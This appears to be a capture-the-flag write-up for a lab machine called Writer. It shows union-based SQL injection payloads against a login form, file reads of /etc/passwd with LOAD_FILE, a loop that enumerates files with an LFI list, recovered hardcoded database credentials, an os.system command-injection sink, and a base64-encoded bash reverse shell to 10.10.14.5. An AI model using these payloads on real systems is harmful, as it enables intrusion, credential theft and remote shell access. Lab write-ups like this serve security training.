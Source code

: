 Using **Union SQL Injection** to find the injection point:
```
POST /administrative
(...)

uname=admin' union select 1,2,3,4,5,6-- -&password=admin'-- -
```
```
Welcome admin2
```

Using _LOAD_FILE_ to read local files on the box:
```
uname=admin' union select 1,LOAD_FILE("/etc/passwd"),3,4,5,6-- -&password=admin'-- -
```

To find names of files on the server, the **Local File Inclusion** list in [this GitHub repository](https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-linux-list.txt) can be used.
With the Python script [writer_sqli.py](writer_sqli.py) in this repository, the list can be used to search for valid filenames:
```
for i in $(cat lfi-linux-list.txt); do python3 writer_sqli.py $i; done
```

After a while, it will save all found files into our _files_ directory.
The file _/etc/apache2/sites-enabled/000-default.conf_ exposes a file of the web service called _/var/www/writer.htb/writer.wsgi_.
```
python3 writer_sqli.py /var/www/writer.htb/writer.wsgi
```
```
(...)
# Import the __init__.py from the app folder
from writer import app as application
```

It imports _init.py_ from the directory, which may have some more interesting code:
```
python3 writer_sqli.py /var/www/writer.htb/writer/__init__.py
```

Now we know that this web application is developed with **Python Flask** and there are hardcoded credentials in this file:
```
connector = mysql.connector.connect(user='admin', password='ToughPasswordToCrack', host='127.0.0.1', database='writer')
```

On line 111, it accepts user input in _os.system_, which is a vulnerability that can be abused to execute arbitrary commands:
```python
os.system("mv {} {}.jpg".format(local_filename, local_filename))
```

Base64-encoding reverse shell command:
```
echo 'bash -i  >& /dev/tcp/10.10.14.5/9001  0>&1  ' | base64
```
